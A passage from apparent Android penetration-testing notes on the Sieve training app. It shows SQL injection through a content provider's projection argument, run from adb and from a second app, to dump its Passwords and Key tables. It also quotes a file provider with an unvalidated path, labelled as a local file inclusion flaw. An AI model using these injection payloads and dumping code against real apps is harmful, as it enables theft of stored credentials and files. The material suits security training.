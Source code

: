 ```java
    }
```

### from adb shell
```shell
content query  --uri <content URI>  --projection <Payload>
content query  --uri content://com.mwr.example.sieve.DBContentProvider/Passwords  --projection "* from Key -- - "
```
### form another android app
- java class
```java
TextView textView = findViewById(R.id.text);
Uri uri = Uri.parse("<content URI>") ;
try {
  String [] projection = new String[] {"<Payload>"} ;
  Cursor cursor = getContentResolver().query(uri, projection , null, null, null) ;
  textView.setText(DatabaseUtils.dumpCursorToString(cursor));
}catch (Exception e){
  textView.setText(e.toString());
}


// example
TextView textView = findViewById(R.id.text);
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords") ;
try {
  String [] projection = new String[] {"* from Key -- -"} ;
  Cursor cursor = getContentResolver().query(uri, projection , null, null, null) ;
  textView.setText(DatabaseUtils.dumpCursorToString(cursor));
}catch (Exception e){
  textView.setText(e.toString());
}
```
- AndroidManifest
```xml
<queries>
  <package android:name="<Package name to attack>" ></package>
</queries>
```

## LFI 
in FileBackupProvider the openFile lacks validation so it can be exolited by LFI 
```java
    @Override // android.content.ContentProvider
    public ParcelFileDescriptor openFile(Uri uri, String mode) {
        int modeCode;
        if (mode.equals("r")) {
            modeCode = 268435456;
        } else if (mode.equals("rw")) {
            modeCode = 805306368;
        } else if (mode.equals("rwt")) {
            modeCode = 805306368;
        } else {
            Log.w(TAG, "Unrecognised code to open file: " + mode);
            return null;
        }
        try {
            return ParcelFileDescriptor.open(new File(uri.getPath()), modeCode);
        } catch (FileNotFoundException e) {
            Log.e(TAG, "ERROR: unable to open file: " + e.getMessage());
            return null;
        }
```